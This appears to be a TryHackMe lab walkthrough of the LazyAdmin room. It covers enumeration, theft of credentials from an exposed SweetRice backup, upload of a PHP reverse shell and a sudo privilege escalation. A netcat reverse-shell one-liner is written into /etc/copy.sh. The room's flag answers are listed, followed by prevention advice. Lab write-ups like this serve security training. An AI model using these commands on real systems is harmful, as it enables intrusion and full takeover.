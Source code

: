 # 🛡️ TryHackMe: LazyAdmin – Walkthrough & Report

**Room:** [LazyAdmin](https://tryhackme.com/room/lazyadmin)  
**Difficulty:** Easy  
**Target IP:** 10.10.187.142  
**Objective:** Capture the user and root flags by identifying and exploiting vulnerabilities

---

## 🧭 Enumeration

### 🔎 Nmap Scan

```bash
nmap -Pn -sC -sV -oN lazyadmin.nmap 10.10.187.142
```

**Findings:**

- `22/tcp` – OpenSSH
- `80/tcp` – Apache HTTPD with default Ubuntu page

---

## 🌐 Web Discovery

Visited `http://10.10.187.142`, revealed default Apache page.  
No custom web app present at root.

Used Gobuster to enumerate directories:

```bash
gobuster dir -u http://10.10.187.142 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Findings:**

- `/content/`
- `/server-status/` (403)

Further enumeration on `/content/` revealed:

- `/content/as/`
- `/content/inc/`
- `/content/inc/mysql_backup/`

---

## 🔍 CMS Identification

Visiting `/content/` revealed the site is running **SweetRice CMS**, which is known to be vulnerable.

---

## 💥 Exploitation: SweetRice Backup Disclosure

Visited:

```
http://10.10.187.142/content/inc/mysql_backup/
```

Found file:

```
mysql_backup_20191129023059-1.5.1.sql
```

Downloaded with:

```bash
wget http://10.10.187.142/content/inc/mysql_backup/mysql_backup_20191129023059-1.5.1.sql
```

Cracked MD5 hash:

```
42f749ade7f9e195bf475f37a44cafcb → Password123
```

---

## 🔐 Gaining Access

Logged in at:

```
http://10.10.187.142/content/as
```

With credentials:

```
Username: manager
Password: Password123
```

---

## 🐚 Reverse Shell

1. Downloaded reverse shell:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

2. Edited IP and port:

```php
$ip = '10.11.0.5';  // Attacker IP
$port = 4444;
```

3. Renamed and uploaded via admin panel:

```bash
mv php-reverse-shell.php shell.phtml
```

4. Set up listener:

```bash
nc -lvnp 4444
```

5. Triggered shell → Connected as `www-data`

---

## 🧑‍💻 Privilege Escalation

Checked sudo rights:

```bash
sudo -l
```

Allowed to run:

```
/usr/bin/perl /home/itguy/backup.pl
```

Content of `backup.pl`:

```perl
system("/etc/copy.sh");
```

Overwrote `/etc/copy.sh` with a reverse shell:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <your-ip> 5554 > /tmp/f" > /etc/copy.sh
```

Started listener:

```bash
nc -lvnp 5554
```

Executed:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

Gained root shell.

---

## 🏁 Flags Captured

- **User Flag:** `THM{63e5bce9271952aad1113b6f1ac28a07}`
- **Root Flag:** `THM{6637f41d0177b6f37cb20d775124699f}`

---

## 🔒 Prevention Recommendations

1. **Update software** to patch known CVEs (SweetRice).
2. **Restrict backup file access** to authenticated users only.
3. **Limit sudo permissions** — avoid allowing scripts to be executed as root by low-priv users.
4. **Use 2FA** and strong password policies.
5. **Sanitize file uploads** to block `.php`, `.phtml`, etc.
6. **Use file integrity monitoring** on critical config files.

---

## ✅ Summary

✔️ Enumerated services and discovered vulnerable CMS  
✔️ Exploited exposed SQL backup to gain credentials  
✔️ Logged into admin panel and uploaded reverse shell  
✔️ Escalated privileges using insecure Perl script  
✔️ Captured user and root flags  
✔️ Documented attack flow and suggested remediations
